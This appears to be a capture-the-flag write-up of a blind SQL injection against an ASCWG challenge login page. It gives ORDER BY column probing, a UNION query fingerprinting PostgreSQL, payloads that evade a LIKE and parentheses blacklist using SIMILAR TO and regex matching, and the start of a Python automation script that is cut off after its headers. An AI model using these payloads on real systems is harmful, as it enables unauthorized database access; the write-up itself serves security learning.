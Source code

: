 ![Untitled (3)](https://github.com/user-attachments/assets/647a6114-c477-44bc-8fda-44dd5f103268)

Let's start step by step. First, we'll determine how many columns there are by using the query `' ORDER BY 3-- -`. giveing error

![Untitled (4)](https://github.com/user-attachments/assets/8d5cc916-cca6-4115-b688-050dca376770)

`' ORDER BY 2-- -` works fine

![Untitled (5)](https://github.com/user-attachments/assets/f8936bb1-f61c-41a7-8ea5-d6812693142e)

After a lot of searching and trying to bypass the `LIKE` filter keyword, I haven’t found anything useful. However, I remember that there is something similar to `LIKE` in PostgreSQL. But first, let’s confirm if PostgreSQL is the database being used

`'+UNION+SELECT+null,table_name+FROM+information_schema.tables+WHERE+table_name+='pg_user'--`

This query attempts to check the `pg_user` table name from the `information_schema.tables` if it exists. If PostgreSQL is being used and the `pg_user` table is present, we will see `welcome` in the response.

![Untitled (6)](https://github.com/user-attachments/assets/7d519c1d-390b-4486-8f5d-473d53b43713)

Now that we’ve confirmed they are using PostgreSQL, we can use the following payload to get the database user:

`'+UNION+SELECT+NULL,+current_user+FROM+information_schema.columns+WHERE+table_name+%3d+'pg_user'+AND+current_user+SIMILAR+TO+'ASCWG{%25'--`

We used `SIMILAR TO` because `LIKE` is blacklisted, and we chose this payload because parentheses `()` are also blacklisted.

![Untitled (7)](https://github.com/user-attachments/assets/eeaca09b-2a7b-490a-8015-89938a29060b)

Now we need to create a Python script to automate this process. For easier payloads, we can use `test'+or+user+~+'^ASCWG{'--`, which will achieve the same result as the previous payload.

```python
import requests
import string
import time

session = requests.session()

burp0_url = "https://real.ascwg-challs.app:443/login"
burp0_headers = {
    "Cache-Control": "max-age=0",
    "Sec-Ch-Ua": "\"Not)A;Brand\";v=\"99\", \"Google Chrome\";v=\"127\", \"Chromium\";v=\"127\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": "\"Windows\"",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://real.ascwg-challs.app",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://real.ascwg-challs.app/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "ar-EG,ar;q=0.9,en-EG;q=0.8,en;q=0.7,en-US;q=0.6",
    "Priority": "u=0, i"
}

```